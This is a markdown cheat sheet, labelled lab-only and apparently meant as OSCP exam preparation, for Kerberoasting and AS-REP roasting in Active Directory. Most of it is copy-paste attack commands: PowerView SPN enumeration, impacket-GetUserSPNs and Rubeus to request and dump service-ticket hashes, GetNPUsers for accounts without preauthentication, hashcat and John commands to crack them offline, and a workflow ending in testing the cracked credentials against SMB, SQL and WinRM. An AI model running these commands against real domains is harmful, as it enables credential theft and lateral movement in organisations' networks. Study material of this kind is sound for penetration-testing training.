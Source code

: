 # Kerberoast Cheat Sheet — Rubeus & GetUserSPNs (LAB ONLY)

**LAB ONLY — do not run against systems you do not own or are not authorized to test.**

---

## TL;DR (1-line)

Enumerate SPNs → request TGS for SPN accounts → export ticket blobs → crack offline (hashcat/john) → validate cracked creds.

---

## Quick tool map & when to use

- **impacket GetUserSPNs.py** (Kali/Linux)
    
    - Use from an attacker box when you have a domain user account and want to bulk-request TGS for all SPNs and save hashcat-ready blobs.
        
- **Rubeus.exe** (Windows host)
    
    - Use when you have an interactive Windows shell (e.g., a user shell on a host). Great for on-host Kerberos ops and direct hash export in hashcat format.
        
- **GetNPUsers.py** (Impacket) — AS-REP roast
    
    - Use when checking for accounts with `DONT_REQUIRE_PREAUTH` (AS-REP roastable). Needs no password for discovery.
        
- **PowerView / PowerShell**
    
    - Use for AD enumeration to list SPNs and prioritize targets (run on a Windows session or via PowerShell Remoting).
        
- **hashcat / John**
    
    - Offline cracking engines. Use hashcat for GPU accelerated cracking (modes below), John for CPU.
        
- **BloodHound / SharpHound**
    
    - Use for AD mapping to prioritize service accounts and attack paths.
        

---

## Copy-paste lab commands (concise)

### 1) Enumerate SPNs with PowerView (on Windows)

```powershell
# PowerShell (PowerView).
Get-DomainUser -Properties servicePrincipalName | Where-Object { $_.servicePrincipalName } |
  Select-Object sAMAccountName, servicePrincipalName
```

### 2) GetUserSPNs (Impacket) — request TGS and save hashes

```bash
# From Kali (replace DOMAIN/user:pass and DC IP)
impacket-GetUserSPNs DOMAIN/user:Password -dc-ip <DC_IP> -request > spn_hashes.txt
# or with explicit output file
impacket-GetUserSPNs DOMAIN/user:Password -dc-ip <DC_IP> -request -outputfile spn_hashes.txt
```

**When to use:** use this as your primary network-based collection tool when you can authenticate from Kali.

### 3) Rubeus kerberoast (on a Windows host)

```powershell
# Run from a Windows shell where you have a user token
Rubeus.exe kerberoast /nowrap /format:hashcat > rubeus_hashes.txt
```

**When to use:** use Rubeus when operating on Windows (remote shell/webshell that can execute Rubeus). It outputs hashcat-ready strings.

### 4) GetNPUsers (AS-REP roast discovery)

```bash
# Impacket (no password required for discovery)
impacket-GetNPUsers -no-pass DOMAIN/ -dc-ip <DC_IP> -usersfile users.txt > asrep_hashes.txt
```

**When to use:** run this alongside Kerberoast to find AS-REP targets (different precondition: DONT_REQUIRE_PREAUTH).

### 5) Crack with hashcat (common modes)

```bash
# Kerberos TGS RC4 (etype 23) — common, mode 13100
hashcat -m 13100 spn_hashes.txt /path/to/wordlist -O -o cracked.txt

# AS-REP (etype 23) — mode 18200
hashcat -m 18200 asrep_hashes.txt /path/to/wordlist -O -o cracked_asrep.txt
```

**When to use:** after you collect ticket blobs; run offline. Check header to confirm encryption type; adjust mode if AES (see hashcat docs).

### 6) John the Ripper alternative

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs spn_hashes.txt
john --show spn_hashes.txt
```

---

## Parsing tips & gotchas

- **Check the ticket header**: strings like `$krb5tgs$` indicate krb5tgs format; the enctype (RC4 vs AES) determines hashcat mode. Default common is RC4 (13100). If tickets are AES, use the corresponding mode.
    
- **Output formats**: `GetUserSPNs.py` and `Rubeus` produce hashcat-ready strings; ensure you pipe/save them intact and don’t modify encoding.
    
- **No SPNs found**: verify LDAP/PowerView enumeration — SPNs are stored in `servicePrincipalName` attribute.
    
- **No creds / auth fails**: GetUserSPNs requires a valid domain user. If you lack creds, prioritize gaining a domain user or use other recon (AS-REP requires only username list and no preauth users).
    

---

## Short workflow (memorize)

1. Enumerate SPNs (PowerView / ldapsearch)
    
2. Use `GetUserSPNs.py` (Kali) or `Rubeus kerberoast` (on-host) to request TGS and export hashes
    
3. Crack offline with hashcat/john (use correct mode)
    
4. Test cracked creds against services (SMB/SQL/WinRM) in lab
    

---

## Quick reference: when to use each tool

- **GetUserSPNs (Impacket)** — primary network collector from Kali when you have domain creds
    
- **Rubeus** — on-host Windows Kerberos operations (use when you have a shell on a Windows box)
    
- **GetNPUsers** — AS-REP discovery (no password required for some operations)
    
- **hashcat / john** — offline cracking
    
- **PowerView / BloodHound** — enumeration & prioritization
    

---

Keep this sheet on your exam clipboard. Good luck on the OSCP — go crush it.
